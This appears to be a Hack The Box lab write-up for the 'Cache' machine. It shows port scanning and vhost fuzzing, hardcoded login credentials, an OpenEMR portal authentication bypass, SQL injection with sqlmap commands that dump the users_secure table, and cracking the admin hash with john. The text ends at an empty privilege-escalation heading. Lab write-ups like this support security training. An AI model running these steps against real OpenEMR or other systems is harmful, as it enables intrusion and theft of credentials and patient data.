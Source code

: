 ```yaml
---
title: HTB - Cache Write-up
author: bigb0ss
date: 2020-10-25 23:25:00 +0800
categories: [Hack The Box, Linux, Medium]
tags: [hackthebox, cache, vhost, openemr]
---
```


![image](/assets/img/post/htb/cache/01_infocard.png)

## Recon

### Nmap

Let’s begin with an initial port scan:

```console
$ nmap -Pn --open -p- -sC -sV 10.10.10.188
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-25 16:34 EDT
Nmap scan report for 10.10.10.188
Host is up (0.080s latency).
Not shown: 65533 closed ports

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Interesting Ports

* HTTP (80/TCP) - Cache Web Page.

### Login Page

The HTTP (80/TCP) page has a menu for `Login`. 

![image](/assets/img/post/htb/cache/02_login.png)

When I inspected the source code of the login page, there was a script called `functionality.js` which was responsible for the `client-side` authentication. 

![image](/assets/img/post/htb/cache/03_source-1.png)

The following username and password (ash:H@v3_fun) found within the script:

```js
$(function(){
    
    var error_correctPassword = false;
    var error_username = false;
    
    function checkCorrectPassword(){
        var Password = $("#password").val();
        if(Password != 'H@v3_fun'){
            alert("Password didn't Match");
            error_correctPassword = true;
        }
    }
    function checkCorrectUsername(){
        var Username = $("#username").val();
        if(Username != "ash"){
            alert("Username didn't Match");
            error_username = true;
        }
    }
```

Once logged in, there was the following static page:

![image](/assets/img/post/htb/cache/04_after-login.png)

It was a bit of rabbit-hole. 

### VHOST

I also performed some directory brute-forceing against the `http://10.10.10.188/`; however, nothing seemed to be interesting. 

Then, I moved onto performing some of the potential subdomain enumerations, which didn't get me to far either. 

Next, I wanted to check for any potential VHOST (Virtural Hosting) for the domain. 

Modifed my `/etc/hosts` file to add `cache.htb` to `10.10.10.188`:

```bash
127.0.0.1       localhost
127.0.1.1       kali

### htb
10.10.10.188    cache.htb

### The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Once it was done, using `FFUF`, I started to look for any potential VHOST associated with the Cache system. 

```console
# ./ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.htb" -u http://cache.htb -fw 902

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v0.12
________________________________________________

 :: Method           : GET
 :: URL              : http://cache.htb
 :: Header           : Host: FUZZ.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response words: 902
________________________________________________

hms                     [Status: 302, Size: 0, Words: 1, Lines: 1]
```

This found the permanent redirection (302) for `hms.htb`. I updated my `/etc/hosts` again to add `hms.htb` to `10.10.10.188`:

```bash
127.0.0.1       localhost
127.0.1.1       kali

### htb
10.10.10.188    cache.htb hms.htb

### The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Then, I was able to access OpenEMR login page via `http:/hms.htb`.

![image](/assets/img/post/htb/cache/05_openemr.png)


## Initial Foothold

By Google searching about OpenEMR, I was able to discover some good amount of known vulnerabilities associated with this product. 

* <a href="https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf">OpenEMR Vulnerability Disclosure Report</a>

* <a href="https://www.youtube.com/watch?v=DJSQ8Pk_7hc">OpenEMR Simulated Attack Video</a>

In a nutshell, the product was written in PHP and heavily vulnerable to multiple SQLi attacks because the codes were not sanitizing the user input properly, and most of the SQL syntax were not written in parameterized queries.

Additionally, the Vulnerability Disclosure Report also indicated that by browsing `/admin.php`, one can view the information about the installed OpenEMR product, such as the version info. 

![image](/assets/img/post/htb/cache/06_version.png)

### SQLi (OpenEMR)

According the the "OpenEMR Simulated Attack" video, we could bypass the authentication by visiting the `/portal` page and access pages like `add_edit_event_user.php` in order to identify the SQLi vuln. 

![image](/assets/img/post/htb/cache/07_portal.png)

![image](/assets/img/post/htb/cache/08_add-edit.png)

By adding `?eid='` at the end of the above page, we can cause the SQL error. 

![image](/assets/img/post/htb/cache/09_sql-error.png)

Then, capture the above `GET` request with Burp in order to feed that `GET` request to the `sqlmap`.

![image](/assets/img/post/htb/cache/10_get.png)

<b>sqlmap</b>

Save the `GET` into a file such as `openemr.req` and let's feed that into the `sqlmap` to see if we can retrieve what kind of databases from the application.

```console
$ sqlmap -r openemr.req --threads=10 --dbs
```
This found two (2) databases: 1) information_schema; 2) openemr

![image](/assets/img/post/htb/cache/11_db.png)

Then, we can query for tables for the database `openemr` and by dumping `users_secure` table, we can obtain the password hash for the `openemr_admin` user. 

```console
$ sqlmap -r openemr.req --threads=10 -D openemr --tables

$ sqlmap -r openemr.req --threads=10 -D openemr -T users_secure --dump
```

![image](/assets/img/post/htb/cache/12_admin.png)

Upon obatin the hash, we can use `john` to crack it. It turned out to be `xxxxxx` in cleartext.

```console
$ john pass.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
xxxxxx           (?)
1g 0:00:00:00 DONE 2/3 (2020-10-25 22:26) 3.571g/s 4114p/s 4114c/s 4114C/s water..88888888
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```



## Privilege Escalation


